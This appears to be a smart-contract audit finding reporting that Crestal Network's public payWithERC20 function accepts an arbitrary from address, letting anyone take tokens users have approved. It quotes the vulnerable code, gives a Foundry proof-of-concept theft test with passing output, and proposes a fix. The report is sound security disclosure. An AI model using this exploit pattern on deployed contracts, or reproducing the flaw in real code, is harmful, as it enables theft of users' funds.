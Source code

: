 Stale Hotpink Kitten

High

# Arbitrary transfer from in public function `Payment::payWithERC20` allows an attacker to steal approved funds

### Summary

The public function [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) is used in [`BlueprintCore`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L756) to pay fees to the `feeCollectionWalletAddress`, however since the function is public and uses arbitrary from in the [`safeTransferFrom`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L31), anyone can send approved tokens to themselves. 

```solidity
    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }

```

### Root Cause

The function [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) is public and includes an unchecked arbitrary from in the [safeTransferFrom](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L31). Since it is public, it is callable by anyone.

### Internal Pre-conditions

Can happen at any time with any approved tokens

### External Pre-conditions

1. A user approves tokens to the blueprint contract

### Attack Path

1. A user approves the blueprint contract to spend their tokens
2. The attacker sends the users approved tokens to themself before the user can use them

### Impact

Users loose all of their approved tokens since [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) is callable by anyone

### PoC

Add the following test to `BlueprintV5.t.sol`

```solidity
    function test_anyoneCanStealApprovedTokens() public {
        address user = makeAddr("user");
        address attacker = makeAddr("attacker");

        uint256 topUpAmount = 100 * 10 ** 18;

        // Setup
        blueprint.addPaymentAddress(address(mockToken));
        mockToken.mint(user, topUpAmount);

        // 1. The user approves the blueprint contract to spend tokens
        vm.prank(user);
        mockToken.approve(address(blueprint), topUpAmount);

        // 2. The attacker sends the users approved tokens to themself before the user can use them
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, user, attacker);

        uint256 balanceUser = mockToken.balanceOf(user);
        uint256 balanceAttacker = mockToken.balanceOf(attacker);
        assertEq(balanceUser, 0);
        assertEq(balanceAttacker, topUpAmount);
    }
```

```solidity
[PASS] test_anyoneCanStealApprovedTokens() (gas: 151979)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.67ms (338.75µs CPU time)
```

### Mitigation

Make the [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) contract internal so that it can't be called by external users.

```diff
- function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {

+ function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {

```